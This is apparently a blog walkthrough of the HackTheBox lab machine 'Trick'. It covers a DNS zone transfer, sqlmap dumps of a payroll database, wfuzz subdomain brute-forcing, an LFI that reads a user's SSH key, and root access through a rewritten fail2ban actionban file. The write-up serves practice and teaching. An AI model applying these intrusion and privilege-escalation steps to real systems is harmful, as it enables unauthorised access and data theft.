







# HackTheBox - Trick


This post is focused on the walkthrough of Easy Linux Machine Trick from HackTheBox.

<!--more-->

## Summary

Trick from HackTheBox is an Easy Linux Machine. We get a subdomain by performing a DNS zone transfer which in turn reveals another subdomain by brute-forcing on the same pattern. The newly discovered website was vulnerable to LFI through which we can read the private `ssh` key of the user and login to get the `user.txt`. The current user being able to restart the `fail2ban` service as root and being part of `security` group leads to Privilege Escalation by abusing the `fail2ban` configuration.

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ nmap -A -vv 10.10.11.166 -oN nmapN     

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5Rh57OmAndXFukHce0Tr4BL8CWC8yACwWdu8VZcBPGuMUH8VkvzqseeC8MYxt5SPL1aJmAsZSgOUreAJNlYNBBKjMoFwyDdArWhqDThlgBf6aqwqMRo3XWIcbQOBkrisgqcPnRKlwh+vqArsj5OAZaUq8zs7Q3elE6HrDnj779JHCc5eba+DR+Cqk1u4JxfC6mGsaNMAXoaRKsAYlwf4Yjhonl6A6MkWszz7t9q5r2bImuYAC0cvgiHJdgLcr0WJh+lV8YIkPyya1vJFp1gN4Pg7I6CmMaiWSMgSem5aVlKmrLMX10MWhewnyuH2ekMFXUKJ8wv4DgifiAIvd6AGR
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoXvyMKuWhQvWx52EFXK9ytX/pGmjZptG8Kb+DOgKcGeBgGPKX3ZpryuGR44av0WnKP0gnRLWk7UCbqY3mxXU0=
|   256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGY1WZWn9xuvXhfxFFm82J9eRGNYJ9NnfzECUm0faUXm
25/tcp open  smtp    syn-ack Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  syn-ack ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    syn-ack nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have multiple open ports. Enumerating port 80, we get a website.


Since I couldn't find much here. I tried enumerating port `53` DNS.

We can try a zone transfer to get some information.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.7-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 176 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Sat Oct 29 02:18:45 EDT 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

Nice. We get a subdomain `preprod-payroll.trick.htb` here. Visiting the subdomain after adding it to our `/etc/hosts`.


Default credentials didn't work here but trying for SQLi showed some errors.



We can dig further to get the SQLi.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sqlmap -r login.req http://preprod-payroll.trick.htb/ --current-db
```

Using `sqlmap` we identified the Database is `payroll_db`.

Next we can look for tables in this db.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sqlmap -r login.req http://preprod-payroll.trick.htb/ -D payroll_db --tables
```


Now for the entries in the `users` table.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sqlmap -r login.req http://preprod-payroll.trick.htb/ -D payroll_db -T users --dump
```



Logging with these credentials we get the following page.



I couldn't find anything further here so moved on to brute-forcing `vhosts`.

Brute-forcing `vhosts` we couldn't find any so we can try brute-forcing with a pattern `preprod-<subdomain>.trick.htb`

We can first use `sed` command to add a prefix to our wordlist then use `wfuzz` to brute-force subdomains based on their character count.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sed -e 's/^/preprod-/' /home/kali/Documents/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  > newWordlist
```

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ wfuzz -c -f sub-fighter -w newWordlist -u 'http://trick.htb' -H "Host: FUZZ.trick.htb"  --hh 5480
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://trick.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000254:   200        178 L    631 W      9660 Ch     "preprod-marketing"
```

Adding this subdomain to our `/etc/hosts` then visiting.


## Foothold

Looking around we have a `page` parameter which looks interesting for a `LFI`.


Bypassing some basic filtering we get the `LFI`



From the `/etc/passwd` we know there's a user `michael`, so we can check for `ssh` keys in it's home directory.



Try logging in with the `id_rsa`.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ ssh -i id_rsa michael@trick.htb

michael@trick:~$ whoami
michael

michael@trick:~$
```

And we're in.

### user.txt

```bash
michael@trick:~$ ls -al
total 84
drwxr-xr-x 15 michael michael 4096 Oct 29 08:34 .
drwxr-xr-x  3 root    root    4096 May 25 13:28 ..
lrwxrwxrwx  1 root    root       9 Apr 22  2022 .bash_history -> /dev/null
-rw-r--r--  1 michael michael  220 Apr 18  2019 .bash_logout
-rw-r--r--  1 michael michael 3526 Apr 18  2019 .bashrc
drwx------  9 michael michael 4096 May 11 21:09 .cache
drwx------ 10 michael michael 4096 May 11 21:08 .config
drwxr-xr-x  2 michael michael 4096 May 11 21:07 Desktop
drwxr-xr-x  2 michael michael 4096 May 11 21:07 Documents
drwxr-xr-x  2 michael michael 4096 May 11 21:07 Downloads
drwx------  3 michael michael 4096 May 11 21:08 .gnupg
-rw-------  1 michael michael 1256 May 25 13:09 .ICEauthority
drwx------  3 michael michael 4096 May 11 21:07 .local
drwxr-xr-x  2 michael michael 4096 May 11 21:07 Music
drwxr-xr-x  2 michael michael 4096 May 11 21:07 Pictures
-rw-r--r--  1 michael michael  807 Apr 18  2019 .profile
drwxr-xr-x  2 michael michael 4096 May 11 21:07 Public
-rw-------  1 michael michael   86 Oct 29 08:34 .python_history
drwx------  2 michael michael 4096 May 24 17:25 .ssh
drwxr-xr-x  2 michael michael 4096 May 11 21:07 Templates
-rw-r-----  1 root    michael   33 Oct 29 07:52 user.txt
drwxr-xr-x  2 michael michael 4096 May 11 21:07 Videos

michael@trick:~$ cat user.txt 
1a****************************ef

michael@trick:~$ 

```

## Privilege Escalation


`sudo -l` shows we can run `/etc/init.d/fail2ban restart` as `root`.

```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart

michael@trick:~$
```


Fail2ban is an intrusion prevention software framework. Written in the Python programming language, it is designed to prevent against brute-force attacks. It is able to run on POSIX systems that have an interface to a packet-control system or firewall installed locally, such as iptables or TCP Wrapper.


Source: https://en.wikipedia.org/wiki/Fail2ban

Looking up for PrivEsc using `fail2ban` I came accross [this](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7) article.

We have almost the same scenario as the above article. 

We also have `ssh` service enabled in the `/etc/fail2ban/jail.conf` file.


Now since we can restart `fail2ban` as root what we have to do now is to inject our custom command as `actionban` in `/etc/fail2ban/action.d/iptables-multiport.conf` file.

Sadly we don't have write permissions on the file.


But luckily we are part of a group `security` and this group has write permissions on the `/etc/fail2ban/action.d` folder.


Now the attack scenario is as follows.

We will delete the original `iptables-multiport.conf` file and replace it with our custom made file. Then we will restart the `fail2ban` service and finally attempt to login via `ssh` 5 times via brute-forcing or manually. And this will execute our command as `actionban`.

Now changing the `iptables-multiport.conf` file as follows


Then deleting the previous one and fetching the new one.



Restarting the `fail2ban` service.



Now brute-force the ssh login via `hydra`. 


Now looking at the `bash` binary, it has the SUID bit set.


### root.txt

```bash
bash-5.0# cd /root/

bash-5.0# ls -al
total 56
drwx------  8 root root 4096 Jun  7 03:33 .
drwxr-xr-x 19 root root 4096 May 25 13:28 ..
lrwxrwxrwx  1 root root    9 Apr 22  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 May 25 13:28 .cache
drwx------  5 root root 4096 May 25 13:28 .config
-rw-r--r--  1 root root  139 Apr 22  2022 f2b.sh
drwxr-xr-x  6 root root 4096 Jun 12 01:29 fail2ban
drwx------  3 root root 4096 May 25 13:28 .gnupg
drwxr-xr-x  3 root root 4096 May 25 13:28 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root   33 Oct 29 07:52 root.txt
-rw-r--r--  1 root root   66 Jun  7 03:32 .selected_editor
-rwxr-xr-x  1 root root 1342 Jun  7 03:33 set_dns.sh
drwx------  2 root root 4096 May 25 13:28 .ssh

bash-5.0# cat root.txt 
31****************************6c

bash-5.0#
```

**Thanks for reading!**


